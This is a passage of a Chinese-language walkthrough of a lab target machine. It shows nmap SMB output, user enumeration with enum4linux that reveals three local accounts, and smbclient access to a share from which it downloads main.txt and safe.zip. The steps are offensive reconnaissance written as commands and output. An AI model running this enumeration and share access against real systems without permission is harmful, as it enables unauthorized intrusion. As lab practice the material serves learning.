 ```shell
|_  System time: 2021-06-28T18:00:43+05:30
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-06-28T12:30:43
|_  start_date: N/A
...
```

结果显示靶机开启了**80**端口、smb服务的**139/445**端口，以及ssh服务的**2525**端口。下一步对**80**端口下进行目录枚举，不过结果中没有发现什么有用的信息，之后在查看首页面源码时发现关键信息：

```html
<meta name="description" content="Cloud 83 - hosting template ">
```

代表该网站使用的是*Cloud 83* CMS，但google搜索网站目录结构也没什么信息。之后根据页面的提示信息`###################GET#####smb##############free`，试试smb服务枚举，并且在使用*enum4linux*工具后的输出结果中发现3个用户

```shell
┌──(root💀kali)-[~]
└─# enum4linux -A 192.168.36.190
...
 ==========================
|    Target Information    |
 ==========================
Target ........... 192.168.36.190
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\sagar (Local User)
S-1-22-1-1001 Unix User\blackjax (Local User)
S-1-22-1-1002 Unix User\smb (Local User)
...
```

之后使用*smbclient*工具登录到smb服务器上，在结果中发现有用信息：

```shell
┌──(root💀kali)-[~]
└─# smbclient //192.168.36.190/smb -U smb -p
Enter WORKGROUP\sagar's password:
Try "help" to get a list of possible commands.
smb: \> help
...
smb: \> get main.txt
getting file \main.txt of size 10 as main.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> get safe.zip
getting file \safe.zip of size 3424907 as safe.zip (246.5 KiloBytes/sec) (average 246.1 KiloBytes/sec)
smb: \> q
```
